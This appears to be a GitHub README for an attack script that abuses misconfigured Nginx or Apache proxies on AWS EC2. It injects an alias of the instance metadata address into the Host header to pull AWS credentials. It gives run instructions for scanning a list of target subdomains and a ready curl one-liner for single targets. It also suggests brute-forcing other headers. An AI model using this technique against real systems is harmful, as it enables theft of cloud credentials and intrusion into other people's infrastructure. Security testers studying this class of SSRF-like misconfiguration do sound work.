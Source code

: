 ### What is this?
The set `proxy_server` and `proxy_pass` directives are typically used in the configuration file of a web server like Apache or Nginx running on an Amazon EC2 instance to configure a proxy server that will forward incoming requests to another server.


#### Misconfiguration:
Sometimes people set http://aws.ca.fi (which resolves to `169.254.169.254`) as proxy server that will receive incoming requests.

### Exploit
So we can modify the proxy by passing aws metadata url to the header and get aws-credentials. Most common header is `Host` header but you can brute-force with other headers to find out(modify the script accordingly).


### How to run?
- Pass a file(full path) with target subdomains
    - file format without http or https protocol: \
    ```line 1: stage.abc.com 
       line 2: beta-stage.abc.com```
- Run: `python aws-credentials-via-proxy.py C:\Users\Nitin\Documents\github\subdomains.txt`

If you have fewer or one target, run - `curl -ik -H "Host:aws.ca.fi" http://target.com/latest/meta-data/`
